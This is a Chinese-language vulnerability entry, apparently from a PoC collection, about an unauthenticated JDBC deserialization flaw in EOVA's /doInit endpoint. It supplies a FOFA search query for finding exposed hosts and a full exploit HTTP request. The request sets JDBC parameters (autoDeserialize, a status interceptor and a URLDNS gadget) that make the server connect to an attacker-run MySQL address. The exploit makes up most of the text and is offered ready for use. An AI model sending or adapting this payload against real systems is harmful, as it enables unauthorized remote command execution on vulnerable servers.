 # EOVA未授权doInit接口存在反序列化漏洞

EOVA存在JDBC反序列化漏洞，由于JDBC连接mysql服务器的时候，参数完全可控，可传入恶意配置和恶意mysql服务器地址，导致反序列化漏洞。攻击者可利用该漏洞执行任意命令。

## fofa

```yaml
icon_hash="-1699356011"
```

## poc

```javascript
POST /doInit HTTP/1.1  
Host:   
Sec-Fetch-Dest: document  
Cache-Control: max-age=0  
Sec-Fetch-User: ?1  
Sec-Fetch-Site: none  
sec-ch-ua-mobile: ?0  
sec-ch-ua-platform: "Windows"  
Accept-Language: zh-CN,zh;q=0.9  
Sec-Fetch-Mode: navigate  
Cookie: JSESSIONID=1diwaoe2lud2k1w5bzj9gy0r9v; _jfinal_captcha=ec1807bb391d443f9730b7b18384157a  
sec-ch-ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br, zstd  
Upgrade-Insecure-Requests: 1  
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1:3333%2Ftest%3FautoDeserialize=true%26statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor%26user=URLDNS%26Yu9=Yu9%23&port=&username=root&password=123456
```



## 漏洞来源

- https://forum.butian.net/article/560
